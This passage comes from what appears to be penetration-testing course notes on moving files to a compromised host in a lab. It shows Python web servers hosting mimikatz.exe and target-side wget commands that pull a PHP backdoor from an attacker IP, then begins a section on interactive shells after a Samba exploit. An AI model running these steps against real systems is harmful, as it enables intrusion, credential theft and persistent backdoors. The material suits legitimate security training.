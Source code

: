 #### ​[Python Web Server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server)​ <a href="#python-web-server" id="python-web-server"></a>

**`Python`** modules can be useful for setting up a web server that hosts the files required for transfer. These modules

* Check `Python` version

python -Vpython3 -Vpy -v # on Windows

* ​[**`SimpleHTTPServer`**](https://docs.python.org/2.7/library/simplehttpserver.html#module-SimpleHTTPServer) - `python2` module

\# If Python version returned is 2.Xpython -m SimpleHTTPServer \<PORT\_NUMBER>

* ​[**`http.server`**](https://docs.python.org/3/library/http.server.html) - `python3` module

\# If Python version is 3.Xpython3 -m http.server \<PORT># On Windows, trypython -m http.server \<PORT>py -3 -m http.server \<PORT>**`e.g.`**

* Copy a file into the current directory and setup the web server to download the file into the target system

cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .​# Python 2.7python -m SimpleHTTPServer 80​# Python 3.7python3 -m http.server 80

Files can be downloaded from a browser or using a `GET` request

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9fda9e6cda6af72c652286651e6ce3dbd0958793%2Fimage-20230428215801961.png?alt=media" alt=""><figcaption></figcaption></figure>

After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.

2 terminal sessions are necessary - use `tmux` utility to get more sessions.

​[**`tmux`**](https://github.com/tmux/tmux/wiki) - _is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside i&#x74;_&#x73;udo apt install tmux -y# Attacker machinetmux# ... Exploitation with MSFconsole in Terminal 0 ...# CTRL+B and then C to open a new terminal session​cd /usr/share/webshells/php/ip -br -c a192.219.50.2python3 -m http.server 80# CTRL+B then 0 (zero) to navigate to the first Terminal session# Target machine/bin/bash -iwget http://192.219.50.2/php-backdoor.phpwget http://\<ATTACKER\_IP>/php-backdoor.php

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-3881bc1a643bbd134eba3dcaeed1b07ea5383ec9%2Fimage-20230428232055646.png?alt=media" alt=""><figcaption></figcaption></figure>

<details><summary>Transferring files to Windows</summary></details>

## Interactive Shells <a href="#interactive-shells" id="interactive-shells"></a>

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

* After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  * This is a command shell session
